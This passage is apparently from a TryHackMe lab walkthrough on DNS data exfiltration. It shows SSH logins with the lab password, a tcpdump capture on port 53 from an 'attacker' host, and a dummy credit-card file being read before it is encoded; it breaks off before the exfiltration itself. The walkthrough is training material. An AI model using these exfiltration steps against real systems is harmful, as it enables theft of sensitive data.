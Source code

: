     ```shell
    # connect to attacker via SSH
    thm@jump-box$ ssh thm@attacker.thm.com
    # password: tryhackme

    # capture incoming UDP/53 packets
    sudo tcpdump -i eth0 udp port 53 -v
    # tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    ```

    Breaking down the `tcpdump` command:
    - `tcpdump` A command-line packet analyzer tool which allows us to capture and display network packets.
    - `-i eth0` Specifies the network interface to capture packets from. 
    - `udp port 53` A filter expression used to specify the packet type we want to capture. In this case, we specify port 53 which is most commonly associated with DNS traffic.
    - `v` Enables verbose mode, which provides more detailed information about the captured packets.

2. We can now connect to `victim2.thm.com` through SSH (again, by first connecting to `jump.thm.com`):

    ```shell
    # connect to victim2 via SSH
    thm@jump-box$ ssh thm@victim2.thm.com
    # password: tryhackme
    ```

    As we can see, there is a `task9/credit.txt` file, which we need to encode:

    ```shell
    victim2$ cat task9/credit.txt
    # Name: THM-user
    # Address: 1234 Internet, THM
    # Credit Card: 1234-1234-1234-1234
    # Expire: 05/05/2022
    # Code: 1337
